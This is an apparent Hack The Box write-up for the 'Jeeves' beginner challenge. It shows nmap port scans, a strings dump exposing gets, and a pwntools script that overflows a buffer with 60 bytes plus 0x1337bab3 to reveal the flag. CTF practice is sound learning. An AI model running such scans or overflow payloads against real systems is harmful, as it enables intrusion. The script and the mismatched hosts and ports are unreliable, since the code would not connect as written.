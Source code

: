 ```yaml
---
layout: post
title:  "Jeeves-hackthebox:intro to binary exploitation"
image: ''
date:   2021-11-06 00:06:31
tags:
- hackthebox
- binary_exploitation
description: ''
categories:
- hackthebox 
---
```



## Given

```
host
165.227.225.205:31382

challenge description
How are you doing, sir?

some binary file
jeevs
```
I started by scanning the host
```
 nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p- 
```


## analysing jeevs file 

file type
```
./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

strings out ->
```
➜  Desktop strings jeeves
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
printf
read
malloc
close
open
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8055
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
src.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
printf@@GLIBC_2.2.5
close@@GLIBC_2.2.5
read@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
gets@@GLIBC_2.2.5
__libc_csu_init
malloc@@GLIBC_2.2.5
__bss_start
main
open@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment

```

## jeeves data flow
``
jeeves run --> asks for name --> hello $name exits
``

## nmap output

```


Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
Nmap scan report for 165.227.225.205
Host is up (0.17s latency).
Not shown: 65499 filtered ports, 35 closed ports
PORT      STATE SERVICE
31251/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds


```


one port open

## analysing port:
`` `
 nmap -Pn -sC -sV 165.227.225.205 -p31251

```

output

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
Nmap scan report for 165.227.225.205
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Employee File Manager

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds

```


Looking into jeeves page on port 31251
![](https://i.imgur.com/qHSg99V.png)



seems same binary is deployed there
lets try connectingto it with `nc`
![](https://i.imgur.com/tNgoUQK.png)



## further analysing binary with ghidra

we realise we need 60 x a to reach the var we want

![](https://i.imgur.com/TtA2Muk.png)

so I used pwn tools witn nc

```
from pwn import *

target = process("nc")
target.sendline("209.97.187.130 32259")

payload = "A"*60
payload += p64(0x1337bab3)

target.sendline(payload)
print (target.recvuntil("}"))
```

and we get the flag
![](https://i.imgur.com/kQxpVE8.png)


```
flag
 HTB{hidden}

```
#easy
#binary


